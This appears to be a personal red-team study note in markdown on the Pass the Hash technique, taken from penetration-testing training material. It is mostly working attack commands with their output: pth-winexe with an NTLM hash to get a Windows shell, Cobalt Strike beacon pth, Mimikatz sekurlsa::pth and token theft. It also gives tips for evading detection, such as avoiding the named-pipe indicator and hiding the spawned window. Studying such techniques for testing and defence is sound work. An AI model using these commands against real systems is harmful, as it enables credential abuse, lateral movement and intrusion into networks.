 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Pass the Hash]]  
___

## Description:  

### From Kali

```
kali@kali:~$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd


E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>

```

### In CobaltStrike


Pass the Hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password, rather than the plaintext.

```
beacon> pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : DEV
program    : C:\Windows\system32\cmd.exe /c echo 1cbe909fe8a > \\.\pipe\16ca6d
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  5540
  |  TID  5976
[...snip...]

beacon> ls \\srv-2\c$

```

To avoid the `\\.\pipe\` indicator, we can execute Mimikatz manually and specify our own process.

```
beacon> mimikatz sekurlsa::pth /user:jking /domain:dev.cyberbotic.io /ntlm:4ffd3eabdce2e158d923ddec72de979e

user    : jking
domain    : dev.cyberbotic.io
program    : cmd.exe
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  6284
  |  TID  6288


```

If no `/run` parameter is specified, then `cmd.exe` is started.  However, this can actually cause the process window to appear on the users desktop.

Use a process that doesn't have a console or use `"powershell -w hidden"` to create a hidden window.

Then once the spawned process has started, impersonate it using `steal_token`.

```
beacon> steal_token 6284
[+] Impersonated NT AUTHORITY\SYSTEM
```

When finished, use `rev2self` and `kill` the spawned process.
```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 8 bytes

beacon> kill 6284
[*] Tasked beacon to kill 6284
[+] host called home, sent: 12 bytes

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (05:57 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
